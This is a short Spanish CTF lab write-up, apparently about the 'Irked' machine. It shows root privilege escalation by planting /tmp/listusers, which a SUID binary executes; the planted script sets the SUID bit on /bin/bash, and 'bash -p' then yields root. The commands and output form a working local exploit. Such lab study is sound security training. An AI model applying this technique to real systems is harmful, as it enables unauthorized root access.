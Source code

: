 # Escalada de privilegios a root
Tras ver el funcionamiento del binario con permisos SUID que podemos ejecutar, vemos que hace un setuid(0) y luego prueba a ejecutar un archivo almacenado en la ruta /tmp/ llamado listuser.
Como el archivo no existia le damos caña y lo creamos nosotros para que nos interprete los comandos que queramos cuando se ejecute el binario ./viewuser
```bash
djmardov@irked:/tmp$ ls
listusers  
-rwxr-xr-x 1 djmardov djmardov   49 Aug  5 11:49 listusers
```
Metemos dentro de listusers:
```bash
djmardov@irked:/tmp$ cat listusers 
#!/bin/bash

chmod 4755 /bin/bash
echo "Pwneado"
```
Procedemos a ejecutar el binario ./viewuser para qque nos interprete nuestro comandos en el archivo listuser 
Acordarse de darle permisos de ejecucion con `chmod +x`
```bash
djmardov@irked:/usr/bin$ ./viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2021-08-05 10:35 (:0)
djmardov pts/1        2021-08-05 11:24 (10.10.16.241)
Pwneado
```
Verificamos que nos a ejecutado el comando introducido para darle permisos SUID a la `/bin/bash7`
```bash
djmardov@irked:/usr/bin$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1105840 Nov  5  2016 /bin/bash
```
Sacamos la flag de root
```bash
djmardov@irked:/$ bash -p
bash-4.3# whoami
root
bash-4.3# cat /root/root.txt 
8d8e9e8be64654b6dccc3bxxxxxxxxxxxxx
```
Maquina Irked Pwneada =) Seguimos Full Hack Aprendiendo

